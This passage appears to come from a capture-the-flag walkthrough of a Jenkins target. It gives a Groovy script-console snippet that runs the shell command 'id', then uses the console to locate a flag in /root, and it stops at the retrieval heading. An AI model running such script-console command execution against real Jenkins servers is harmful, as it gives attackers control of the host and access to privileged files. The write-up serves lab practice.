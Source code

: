 ```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'id'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Test Jenkins Groovy script
- Script successfully ran
![](../Assets/Screenshot%202025-09-16%20at%2017.51.49.png)
### Explore directory contents - using Groovy script
- Flag found in `/root` directory
![](../Assets/Screenshot%202025-09-16%20at%2017.53.26.png)
### Retrieve the flag - using Groovy script